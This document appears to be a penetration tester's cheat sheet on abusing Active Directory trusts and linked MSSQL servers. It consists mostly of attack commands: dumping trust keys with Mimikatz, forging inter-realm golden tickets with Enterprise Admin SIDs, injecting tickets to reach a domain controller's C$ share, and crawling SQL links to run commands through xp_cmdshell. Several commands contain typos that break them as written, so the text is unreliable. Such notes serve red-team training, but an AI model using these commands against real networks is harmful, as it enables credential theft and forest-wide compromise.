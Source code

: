 # AD - Trust Abuse - Cross-Forest Attacks / MSSQL

## Child to Parent using Trust Tickets

### Description

* sIDHistory is a user attribute designed for scenarios where a user is moved from one domain to another. When a user's domain is changed, they get a new SID and the old SID is added to sIDHistory.
* sIDHistory can be abused in two ways of escalating privileges within a forest: \
  – krbtgt hash of the child \
  – Trust tickets

<figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

**Requirements**

* DA
* SafetyKatz.exe on DC

**Tool**

**Export Trustkey**

```powershell
SafetyKatz on DC
lsadump ::trust /patch'

Domain: dom.local (dom/ S-1-5-2...) 
[ In ] sub.dom.lcao -> dom.local
 => Take rc4_hmac_nt  ....

Invoke-Mimikatz -Command '"lsadump ::trust /patch'" -ComputerName dchostname
or
Invoke-Mimikatz -Command '"lsadump ::dcsync /user:dom\forest-dc-host$'"
or
Invoke-Mimikatz -Command '"lsadump ::lsa /patch'"
```

**Forge an inter-realm TGT**

{% code overflow="wrap" %}
```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberros::golden /user:Administrator /domain:sub.dom.local /sid:sid-of-current-domain /sids:sid-of-enterprise-admins-group-of-parent-domain /rc4:hash-of-trust-key-see-above-cmd /service:krbtgt /target:dom.local /ticket:C:\save-ticket-here.kirbi" "exit"

Invoke-mimikatz -command '"kerberros::golden /user:Administrator /domain:sub.dom.local /sid:sid-of-current-domain /sids:sid-of-enterprise-admins-group-of-parent-domain /rc4:hash-of-trust--key /service:krbtgt /target:dom.local /ticket:C:\save-ticket-here.kirbi'"
```
{% endcode %}

**Get a TGS for a Service in target domain with the new ticket / then use TGS co access targeted service**

{% code overflow="wrap" %}
```
rubeus.exe asktgs /ticket:C:\save-ticket-here.kirbi /service:cifs/forest-dc-hostname.dom.local dc:forest-dc-hostname.dom.local /ptt
dir \\forest-dc-hostname.dom.local\c$

.\asktgs.exe C:\save-ticket-here.kirbi CIFS/forest-dc-hostname.dom.local
.\kirbikator.exe lsa .\CIFS/forest-dc-hostname.dom.local
ls \\forest-dc-hostname.dom.local\c$

```
{% endcode %}



## Bidirectional Forest Trust

### Description

<figure><img src=".gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

If the receiving DC on the other forest can decrypt the received TGT from Step 5, with the trust key, it assumes everything within the TGT is correct and response with a TGS.\
The trustkey is the NTLM hash of the external domain saved on our DC.\
If we have access to the trustkey

We get in the end the permissions that our DA has been given in the forest domain.

### Tool

**We require the trust key for the inter-forest trust.**

```powershell
Invoke-Mimikatz -command '"lsadump::trust /patch"'
or
Invoke-Mimikatz -command '"lsadump::lsa /patch"'
```

Inter-Forest TGT can be forged with the NTLM hash of the trust key (name of the other forest)

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -command '"Kerberos::golden /user:Administrator /domain dom.local /sid:SID /rc4:rc4ntlm /service:krbtgt /target:targetdom.lol /ticket:C:\myticket.kirbi

.\asktgs.exe C:\myticket.kirbi CIFS/foresttrust.dom.local

.\kirbikator.exe lsa .\CIFS/foresttrust.dom.local.kirbi

Now explicitly shares can be accessed - C$ on forest DC not
```
{% endcode %}

External Trust keys, don't automatically get renewed

Lookup:\
SIDHistory Attack for Parent-Child Domain\
SID Filtering is active for External and Forest Trusts.

## MSSQL Server - Data

### Description

* SQL Servers provide very good options for laterla movement as domain users can be mapped to databse roles
* Database Links allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources
* In case of databse Links between SQL Servers => linked SQL Servers - it is possible to execute stored procedures
* Database links work even accros forest trusts

### Requirement

* SPN and active SQL Server
* Executing Commands: Target server should have xp\_cmdshell or rpcout (disabled by default)
  * If rpcout is enalbed, you can enable xp\_cmdshell using\
    EXECUTE('sp\_configure "xp\_cmdshell",1;reconfigure;') AT "link-name"

### Tool

* PowerUpSQL [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

**Discovery (SPN Scanning)**

```powershell
Get-SQLInstanceDomain

//Gets all SPNs which start with MSSQL - maybe no SQL Server is running (anymore)
```

**Check Accessibility**

```powershell
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -verbose
```

**Gather Informatione**

```powershell
Get-SqlInstnaceDomain | Get-SQLServerInfor -verbose
```

**Search for database Links**

```powershell
Get-SQLServerLink -Instnace hostname_of_mssql_server -verbose
Get-SQLServerLinkCrawl -Instnace hostname_of_mssql_server -verbose

-or-

select * from master..sysservers 
//do it in HeidiSQL Portable / Hostname of mssqlserver & Windows Auth
```

**Enumerating DB Links manually**

{% code overflow="wrap" %}
```sql
select * from openquery("nextHost",'select * from master.sysservers')
select * from openquery(""nextHost",'select * from openquery("nexNextHost","select * from master.sysservers")')
```
{% endcode %}

**Executing commands**

{% code overflow="wrap" %}
```powershell
Get-SQLServerLinkCrawl -instance mssqlhostname -query "exec master..xp_cmdshell 'whoami'"
//this runs accross all links
```
{% endcode %}

